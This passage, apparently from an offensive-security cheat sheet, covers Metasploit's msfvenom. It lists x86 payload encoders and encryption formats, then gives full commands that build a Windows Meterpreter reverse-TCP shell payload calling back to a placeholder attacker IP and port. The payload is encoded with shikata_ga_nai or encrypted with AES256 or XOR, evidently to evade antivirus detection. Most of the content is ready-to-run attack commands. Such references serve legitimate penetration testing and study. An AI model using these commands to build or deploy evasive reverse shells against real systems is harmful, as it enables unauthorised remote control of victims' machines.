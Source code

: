 ```
    x86/avoid_underscore_tolower  manual     Avoid underscore/tolower
    x86/avoid_utf8_tolower        manual     Avoid UTF8/tolower
    x86/bloxor                    manual     BloXor - A Metamorphic Block Based XOR Encoder
    x86/bmp_polyglot              manual     BMP Polyglot
    x86/call4_dword_xor           normal     Call+4 Dword XOR Encoder
    x86/context_cpuid             manual     CPUID-based Context Keyed Payload Encoder
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/service                   manual     Register Service
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
    x86/xor_dynamic               normal     Dynamic key XOR Encoder
```

- To use an encoder with a compatible payload

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -e x86/shikata_ga_nai -i 9 -f c > payload-x86-encoded.c`

### 1.5 - Encryption

- List of encryption methods

```
$ msfvenom -l encrypt

Framework Encryption Formats [--encrypt <value>]
================================================

    Name
    ----
    aes256
    base64
    rc4
    xor
```

- Generating and encrypting payloads using the --encrypt flags

**Note:** For AES256 encryption that the key (using flag `--encrypt-key`) must be exactly 32 bytes of length and the IV (using flag `--encrypt-iv`) must be 16 bytes of length

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt aes256 --encrypt-key 0123456789abcdefghijklmnopqrstuv --encrypt-iv 1234567890abcdef -f c -o payload_aes.c`

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> --encrypt xor --encrypt-key x0rk3y -f c -o payload_xor.c`
